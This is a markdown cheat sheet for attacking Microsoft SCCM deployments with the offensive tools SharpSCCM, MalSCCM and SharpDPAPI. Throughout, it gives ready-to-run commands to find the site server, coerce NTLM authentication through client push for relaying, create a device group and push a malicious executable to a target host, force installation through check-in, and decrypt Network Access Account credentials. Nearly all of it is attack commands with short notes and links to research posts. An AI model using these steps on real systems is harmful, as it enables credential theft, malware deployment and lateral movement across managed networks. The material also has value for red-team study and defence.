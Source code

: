 ### Sources
https://github.com/Mayyhem/SharpSCCM, 
https://github.com/PowerShellMafia/PowerSCCM - a bit outdated but still valid,
https://github.com/nettitude/MalSCCM,
https://github.com/GhostPack/SharpDPAPI 

### Identify SCCM server on local machine

```
SharpSCCM.exe local siteinfo
```

```
MalSCCM.exe locate 
```

Those commands provide the responsible SCCM Server for the client and the site. Those are prerequisites for any furhter attacks.

### Verify SCCM configuration

```
MalSCCM.exe inspect /all /server:<PrimarySiteFQDN>
```

### Initiate Client Push (for relaying)

```
SharpSCCM.exe <server> <sitecode> invoke client-push -t "<windows_host_netbios_name>@445"
```
Details on relaying setup - https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a, 
Additional relaying hints - https://posts.specterops.io/relaying-ntlm-authentication-from-sccm-clients-7dccb8f92867 

### Deploy malicous application by SCCM - ATTENTION - permissions within SCCM Infrastructure required - potential impact on target infrastructure

Create new group for deployment
```
MalSCCM.exe group /create /groupname:TargetGroup /grouptype:device
```

Add target computer to group
```
MalSCCM.exe group /addhost /groupname:TargetGroup /host:WIN2016-SQL
```

Add application
```
MalSCCM.exe app /create /name:demoapp /uncpath:"\\BLORE-SCCM\SCCMContentLib$\localthread.exe"
```

Deploy the application to the target group 
```
MalSCCM.exe app /deploy /name:demoapp /groupname:TargetGroup /assignmentname:demodeployment
```

Initiate checkin - which will trigger the installation as soon as possible
```
MalSCCM.exe checkin /groupname:TargetGroup
```

https://labs.nettitude.com/blog/introducing-malsccm/ 


### NAA Accounts

In case an NAA Account has been deployed or used it can be decrypted on the local client
```
SharpDPAPI.exe sccm
```

ATTENTION - local admin privileges are required -
https://posts.specterops.io/the-phantom-credentials-of-sccm-why-the-naa-wont-die-332ac7aa1ab9
